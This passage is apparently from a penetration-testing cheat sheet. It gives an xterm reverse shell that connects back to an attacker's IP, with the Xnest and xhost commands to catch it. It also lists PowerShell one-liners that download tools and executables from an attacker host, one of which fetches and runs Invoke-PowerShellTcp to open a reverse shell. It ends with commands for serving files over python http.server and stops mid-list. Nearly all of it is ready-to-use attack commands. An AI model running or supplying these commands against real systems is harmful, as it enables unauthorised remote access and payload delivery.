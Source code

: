 ### Xterm Reverse Shell

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (`10.0.0.1`) on TCP port `6001`.

```shell
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (`:1` – which listens on TCP port `6001`). One way to do this is with Xnest (to be run on your system):

```shell
Xnest :1

```

You’ll need to authorise the target to connect to you (command also run on your host):

```shell
xhost +targetip
```

---

## Linux

## Windows

### Transferring Files Without Metasploit

#### Powershell

Download files with powershell:

```powershell
powershell -c "Invoke-WebRequest -uri 'http://Your-IP:Your-Port/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Creating a server with python3:

```shell
python -m http.server
```

Creating a server with python2:
